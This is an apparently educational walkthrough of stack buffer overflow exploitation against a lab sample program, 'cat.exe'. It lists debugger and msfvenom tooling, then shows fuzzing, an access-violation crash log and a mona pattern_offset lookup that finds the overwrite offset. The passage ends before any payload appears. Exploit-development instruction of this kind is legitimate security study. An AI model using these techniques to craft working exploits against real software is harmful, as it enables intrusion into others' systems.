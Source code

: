 # Stack exploitation: `cat.exe`

## Preparations

### .. Tools

* [Notepad++](https://notepad-plus-plus.org)
* [Immunity Debugger](https://www.Immunityinc.com/products/debugger/)
* [Mona.py](https://github.com/corelan/mona) (Place the mona script in the PyCommands folder of Immunity Debugger)
* [MsfVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  (Part of Kali Linux)
* [Python 2.7](https://www.python.org)
* "Optional" ***Use a Virtual Machine***

### .. Setup

* Place the _cat.exe_ sample in a folder
* Set the workingfolder for _mona_ `!mona config -set workingdirectory C:\path\to\sample` (Enter this command in the textbox, in the bottom, of _Immunity_.)

---

## `fuzz1.py`

### .. Test

 * Create pattern and debug.
```
> fuzz1.py
> ImmunityDebugger.exe cat.exe pattern.dat
```

### .. Result

 * Exception
```
 Log data, item 19
  Address=004012B8
  Message=[20:40:49] Access violation when writing to [001A0000]
```

 * Stack at `0x19FFFC` (`0x1A0000 - 4`)
 `0019FFFC   33774232  2Bw3`

 * Pattern at `0x19FFFC` -> `2Bw3`
```
0BADF00D   [+] Command used:
0BADF00D   !mona pattern_offset 2Bw3
0BADF00D   Looking for 2Bw3 in pattern of 500000 bytes
0BADF00D    - Pattern 2Bw3 found in cyclic pattern at position 1448
```
